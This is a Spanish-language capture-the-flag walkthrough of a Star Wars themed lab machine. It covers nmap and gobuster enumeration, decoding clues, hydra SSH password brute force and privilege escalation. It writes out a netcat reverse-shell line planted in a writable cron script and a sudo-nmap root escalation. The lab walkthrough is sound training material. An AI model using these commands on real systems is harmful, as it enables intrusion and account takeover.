

# Reto 4 - Star Wars
Herramientas utilizadas:
- nmap
- netcat
- cyberchef
- gobuster
- cewl
- hydra
- wget

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap <ip_mv> -sCV -Pn -p-
```
<p align="center">  </p>

Encontramos que la máquina víctima tiene corriendo el servicio ssh por el puerto 22 y un servicio web por el puerto 80. En este punto procedemos a revisar la web que exporta el host.

<p align="center">  </p>

En la web encontramos dos imágenes y un texto que pudiera ser una pista **"Password you shall find".** Sin embargo, si observamos el código fuente de la web, encontramos un mensaje interesante.

<p align="center">  </p>

Tomamos el mensaje codificado en base64 y se lo proporcionamos como entrada a la herramienta ```CyberChef```. En el recipe de la herramienta utilizamos el decodificador base64 y convertimos de binario a decimal la salida.
```
https://gchq.github.io/CyberChef/
```
```
MDExMTAxMDAgMDExMDEwMDAgMDExMDEwMDEgMDExMTAwMTEgMDExMDEwMDEgMDExMTAwMTEgMDExMDExMTAgMDExMDExMTEgMDExMTAxMDAgMDExMDEwMDAgMDExMDAxMDEgMDExMTAwMDAgMDExMDAwMDEgMDExMTAwMTEgMDExMTAwMTEgMDExMTAxMTEgMDExMDExMTEgMDExMTAwMTAgMDExMDAxMDA=

```
<p align="center">  </p>

El resultado no es satisfactorio, no se puede encontrar alguna flag solo un simple mensaje **"thisisnothepassword"**. Sim embargo, nos queda por revisar las imágenes que se muestran el la web. 

<p align="center">  </p>

Luego de ubicar las imágenes, procedemos a descargarlas con la herramienta ```wget```.
```
wget http://ip_mv/images/yoda.jpg
wget http://ip_mv/images/yoda.png
```
<p align="center">  </p>

Teniendo las imágenes descargadas, utilizamos la herramienta ```steganography``` para determinar y extraer texto oculto en las imágenes mediante esteganografía.
```
https://stylesuxx.github.io/steganography/ 
```
<p align="center">  </p>

Nótese que como resultado obtenemos un posible password **"babyYoda123"** que podríamos usar con algún usuario existente. Con la herramienta ```gobuster``` procedemos a realizar una búsqueda de archivos y directorios de interés en la web.
```
gobuster dir -u http://ip_mv -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .js,.txt,.php
```
<p align="center">  </p>

Observamos archivos de interés como un **robots.txt** y un **users.js** que nos podría proporcionar algún usuario válido. Al acceder al contenido del archivo **users.js** encontramos dos posibles usuarios **"skywalker y han"**.

<p align="center">  </p>

En este punto contamos con un posible password y dos posibles usuarios válidos. Utilizamos la herramienta ```hydra``` proporcionando un archivo con los dos posibles usuarios y el password encontrado.
```
hydra -L users.txt -p babyYoda123 ssh://ip_mv
```

<p align="center">  </p>

Encontramos que el password proporcionado pertence al usuario **han**. Dado este hallazgo, podemos acceder al host a través del servicio ssh proporcionando este usuario y el password
```
ssh han@ip_mv
```
<p align="center">  </p>

Luego de acceder como el usuario **han** a la máquina víctima, encontramos un directorio interesante (**".secrets"**). Dentro de este se halla un archivo **note.txt** que contiene la primera flag del reto.
<p align="center">  </p> 
<p align="center">  </p>

```
flag{Anakin_is_a_cewl_kid}
```

Posteriormente listamos el contenido del archivo **/etc/passwd** para determinar posibles usuarios válidos en el host. Mediante este paso obtenemos otro posible usuario, **Darth**.
```
tail /etc/passwd
```

Anteriormente se encontró un archivo **robots.txt**. Pasamos a revisarlo y observamos que contiene una pista, nos sugiere que veamos el directorio **r2d2**

<p align="center">  </p>

Situados en el directorio **r2d2** observamos mucha información. Utilizamos la herramienta ```cewl``` para generar una lista de palabras a partir del contenido en el directorio de la web. Esta lista de palabras nos servirá como diccionario de posibles password.

<p align="center">  </p>
<p align="center">  </p>

```
cewl http://ip_mv/r2d2 > r2d2.txt
```

El siguiente paso sería agregar el usuario **Darth** a nuestro archivo de posibles usuarios y utilizar la herramienta ```hydra``` para dado una lista de posibles password determinar a que usuario pertenece para poder acceder al host a través del servicio ssh.
```
hydra -L users.txt -P r2d2.txt ssh://ip_mv
```

<p align="center">  </p>

Como resultado obtenemos el password **tatooine** válido para el usuario **skywalker**. Procedemos a acceder a través del servicio ssh a la máquina víctima.
```
ssh skywalker@ip_mv
```
<p align="center">  </p>

Dentro de la máquina como el usuario **skywalker**, accedemos al directorio **.secrets** que se encuentra en el path donde estamos ubicados. En el directorio encontramos la segunda flag del reto dentro del archivo **note.txt**

<p align="center">  </p>

```
flag{Darth_must_take_up_the_job_of_being_a_good_father}
```

Conociendo que existe el usuario **Darth** en la máquina, accedemos a su directorio personal. Dentro del directorio **.secrets** encontramos un script en python que se ejecuta dado un tiempo. 

<p align="center">  </p>
<p align="center">  </p>

Este script tiene permisos de escritura por parte de los no propietarios, por lo que se puede reescribir. Escribimos dentro del script un comando que nos permitirá entablar una reverse shell con la máquina víctima.
```
nano evil.py
import os
os.system("nc -e /bin/bash ip_myPC 1234")
```
<p align="center">  </p>

En otra terminal nos ponemos en escucha por un puerto con la herramienta ```netcat``` para recibir la reverse shell.
```
nc -lvp 1234
```
<p align="center">  </p>

Dentro de la máquina como el usuario **Darth**, listamos los comandos que podemos usar como root sin proporcionar un password. Encontramos que podemos ejecutar el comando nmap como root. 
```
sudo -l
```
<p align="center">  </p>

Buscamos en la pagina ```https://gtfobins.github.io/``` podemos escalar privilegios a través de la herramienta nmap con permisos de root y efectivamente, existe una vía ejecutando comandos.
```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```
<p align="center">  </p>
<p align="center">  </p>

Luego de ejecutar los comandos nos convertimos en root. Accedemos al directorio de root y listamos la última flag del reto.
```
cat /root/flag.txt
```
<p align="center">  </p>

```
flag {I_hope_you_liked_it_Padawam_:)}
```
